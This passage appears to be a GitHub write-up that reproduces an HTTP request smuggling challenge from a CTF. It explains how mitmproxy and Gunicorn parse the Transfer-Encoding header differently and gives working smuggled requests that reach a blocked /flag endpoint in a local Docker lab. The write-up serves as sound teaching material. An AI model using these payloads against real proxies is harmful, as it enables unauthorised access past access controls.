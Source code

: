 Mitmproxy checks whether `chunked` is in the header, while Gunicorn checks whether the whole value of the header matches `chunked`. So if we sent a header which has as value `chunkedasd`, mitmproxy will parse the body using chunked encoding, while Gunicorn will fall back on the content length.

The blogpost nicely describes how this can be exploited in the CTF, but I thought it would be better to simplify the setup and write my own exploit. In this repository I created this setup using Docker and Python clients to execute the request smuggling. The question still remains how can we abuse this mismatch between the proxy and the server? In the demo setup I made we have a `/flag` endpoint which returns a secret which is only reachable from within the network, because the proxy blocks the request:

```shell
$ curl localhost:8002/flag
Forbidden, but nice try ;)
```

This check is done by the proxy by checking the path that is called, but this check doesn't do anything with the body. So we can make a request which looks as follows:

```http
# Request
GET /hello HTTP/1.1
Host: 0.0.0.0:8002
Content-Length: 4
Transfer-Encoding: asdchunked

2a
GET /flag HTTP/1.1
Host: 0.0.0.0:8002


0

# Response
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Content-Length: 12

Hello there

```

The request looks quite similar to the one in the previous paragraph, except that the body is now replaced with another HTTP request. What will happen is that the proxy will think this is a single HTTP message which passes the `/flag` filter. The server meanwhile thinks the request ends with 2a (including double line breaks `\r\n`) and thinks what comes next is a new HTTP request. What follows is a valid HTTP request calling the `/flag` endpoint, returning the response to the proxy. But there is still a problem left, since the proxy thinks it only received a single request from the user, it will only return a single response. So although the proxy received two respones from the server, it thinks it only has to return a single response, leaving our `/flag` response hanging at the proxy. The solution to still get back this response is quiet simple:

```http
# Request
GET /hello HTTP/1.1
Host: 0.0.0.0:8002
Content-Length: 4
Transfer-Encoding: asdchunked

2a
GET /flag HTTP/1.1
Host: 0.0.0.0:8002


0

GET /hello HTTP/1.1
```